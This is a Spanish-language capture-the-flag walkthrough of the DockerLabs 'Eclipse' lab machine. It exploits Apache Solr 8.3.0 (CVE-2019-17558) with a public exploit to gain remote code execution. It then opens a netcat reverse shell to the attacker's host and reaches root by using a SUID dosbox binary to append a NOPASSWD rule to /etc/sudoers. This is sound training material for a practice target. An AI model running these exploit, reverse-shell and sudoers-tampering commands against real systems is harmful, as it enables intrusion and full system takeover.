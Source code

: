 # ECLIPSE - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Eclipse. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./eclipse.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: medio
- Sistema Operativo: linux
- Autor: Xerosec

## ESQEUMA

![eclipse](https://github.com/user-attachments/assets/420788af-e4aa-4cb0-9a52-495dabd0e523)

## ENUMERACIÓN

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/a1179084-6908-4198-add6-afb29acdcaa5)

Recibimos respuesta, con TTL 64, por lo que la máquina seguramente use Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/866106fc-4051-4c44-b9ff-0ea4ac95c538)

#### puertos abiertos

**80 - TCP - HTTP**

**8983 - TCP - HTTP**

Ahora hacemos un escaneo de versiones y servicios sobre estos dos puertos:

```python
nmap -p80,8983 -sCV 172.17.0.2 -oN targeted
```

> `-p80,8983` hacer el escaneo solo sobre los puertos 80 y 8983

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/d4f5a1fe-6e64-4462-a842-8ac6f4877238)

### puerto 80

Ejecutamos `whatweb http://172.17.0.2` para ver las tecnologías que se están usando, pero no hay información interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/67c06121-a331-4a8d-acab-d692ec9f85df)

Solo hay esta imagen. No encontramos nada interesante en el código HTML ni haciendo esteganografía a la imagen. Tampoco encontramos nada haciendo fuzzing.

### puerto 8983

Ejecutamos `whatweb http://172.17.0.2:8983`. Se hace un redirect a `http://172.17.0.2:8983/solr`, el cual tiene de título "Solr Admin". Cargamos el puerto 8983 en el navegador:

![image](https://github.com/user-attachments/assets/d9323837-82f7-42db-b9a1-6429df4bf979)

Vemos un panel de administración, donde pone "Solr". Gracias a Google, sabemos que Apache Solr es un motor de búqueda de código abierto.

## EXPLOTACIÓN

En el panel podemos apreciar que pone "8.3.0", que parece la versión. Buscamos en Google "Apache Solr 8.3.0 vulnerabilities", y encontramos un [artículo](https://nvd.nist.gov/vuln/detail/cve-2019-17558) del NIST en el que se habla del CVE-2019-17558, una vulnerabilidad que tienen las versiones de Apache Solr desde la 5.0.0 hasta la 8.3.1, en la cual se pueden ejecutar comandos de forma remota en el servidor vulnerable, usando un parámetro llamado "VelocityResponseWriter".

Ahora que ya sabemos que vulnerabilidad presenta, buscamos exploits. Encontramos un [exploit](https://github.com/k8gege/SolrExp) escrito en python. Lo clonamos:

```python
git clone https://github.com/k8gege/SolrExp
```

E intentamos ejecutar el comando `id`:

```python
python2.7 exp.py http://172.17.0.2:8983 id
```

![image](https://github.com/user-attachments/assets/ad211c19-383c-408b-81f2-55d1b6fbbcb6)

Ganamos RCE. Si ejecutamos de forma remota `nc` a través del exploit, vemos que el programa se queda en espera, lo que indica que se está ejecutando netcat. Nos podemos aprovechar de esto para ganar acceso a la máquina.

Ejecutamos en local:

```python
nc -nlvp 443
```

Ejecutamos con el RCE:

```python
python2.7 exp.py http://172.17.0.2:8983 "nc -e /bin/bash 172.17.0.1 443"
```

![image](https://github.com/user-attachments/assets/2e9f95d7-3d24-4309-99ec-675ed713dc92)

Ganamos acceso como el usuario ninhack.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS

### root

Buscamos archivos con permisos SUID desde la raíz:

```python
find / -perm -4000 2>/dev/null
```

![image](https://github.com/user-attachments/assets/84b1a0be-5482-4641-8ec5-8bf78aec66a1)

Hay un binario que llama la atención: "dosbox". Buscamos en gtfobins y encontramos una [página](https://gtfobins.github.io/gtfobins/dosbox/) en la que se explica como escalar privilegios si este ejecutable tiene permisos SUID:

![image](https://github.com/user-attachments/assets/52e4c464-2d3b-454f-b7cb-1b6bbe77d664)

Para poder ejecutar cualquier comando como root, añadimos la línea "ninhack ALL = (ALL) NOPASSWD: ALL" al `/etc/sudoers`:

```python
dosbox -c "mount c /" -c "echo ninhack ALL = (ALL) NOPASSWD: ALL >>c:/etc/sudoers" -c exit
```

Una vez hecho, ejecutamos `sudo su`:

![image](https://github.com/user-attachments/assets/73a589a4-1a4c-4622-9e70-e26359104877)

Y ganamos una consola como root en la máquina Eclipse.